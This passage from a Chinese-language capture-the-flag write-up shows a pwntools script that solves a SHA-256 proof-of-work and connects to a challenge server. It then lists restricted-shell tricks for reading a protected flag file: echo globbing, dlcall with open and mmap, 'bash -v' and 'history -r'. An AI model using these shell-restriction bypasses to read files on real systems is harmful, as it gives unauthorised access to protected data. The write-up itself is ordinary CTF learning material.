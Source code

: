 ```
		try:
			e3 = e2.next()
		except StopIteration:
			exit(-1)

		ns = s + "".join(e3)
		sha = hashlib.sha256(ns).hexdigest()
		sha_bin = bin(int(sha, 16))[2:]
		sha_bin = '0' * (256%len(sha_bin)) + sha_bin
		if sha_bin[:20] == "00000000000000000000":
			return ns



def main():
	global flag
	#context.log_level = "debug"

	#conn = remote("104.199.132.199", 2223)
	conn = remote("104.199.132.199", 2222)
	#st = "rnwgqhnz"
	#print fuck_1(st)
	str1 = conn.recvuntil("zeros.")
	print str1
	st = re.findall(r"'(.+?)'", str1)[0]
	pt1 = fuck_1(st)
	conn.send(pt1+"\n")
	conn.sendline("pwd")
	conn.interactive()


if __name__ == '__main__':
	main()
```
进去了后发现命令只剩下了内建命令，完全懵比，那么测试吧，先是发现echo可以列目录

```
echo /home/ctf/*
```
这样就会列出ctf下的所有文件，然后发现了flag.ray，但是测试了很久都找不到读取这个文件的方法。
后来看了writeup发现有很多种方式读文件。

第一种好像是官方做法
```
dlcall -n fd -r pointer open /home/ctf/flag.ray 0 && dlcall -n mapped -r pointer mmap 0 10 1 1 \$fd 0 && dlcall printf %s \$mapped
```
没有很看懂

后来发现可以用别的命令
```
bash -v /home/ctf/flag.ray
或
history -r /home/ctf/flag.ray history
```
技不如人，甘拜下风

